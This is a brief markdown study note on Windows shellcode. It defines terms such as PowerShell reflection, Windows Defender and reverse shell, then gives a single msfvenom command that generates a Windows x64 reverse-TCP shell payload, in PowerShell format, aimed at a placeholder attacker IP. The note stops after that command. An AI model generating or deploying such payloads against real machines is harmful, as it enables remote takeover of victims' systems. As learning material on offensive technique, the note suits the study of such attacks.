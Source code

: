 ```yaml
---
title: Shellcodes of the world, unite!
draft: false
tags:
  - cybersecurity
  - shellcodes
---
```



### Essential Terminologies

- **Shellcode**: piece of code usually used by malicious actors during exploits to inject command. Typically written in assembly
- **Powershell**: scripting language and command-line shell built into Windows
- **Windows Defender**: built-in security feature
- **Windows API**: this allows programs to interact with the underlying operating system.
- **Accessing Windows API though PowerShell Reflection**: advanced technique that enables dynamic interaction with the Windows API
- **Reverse shell**: a type of connection in wich the target initiates a connection back to your attacking machine


### Generating Shellcode
We use `msfvenom`

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```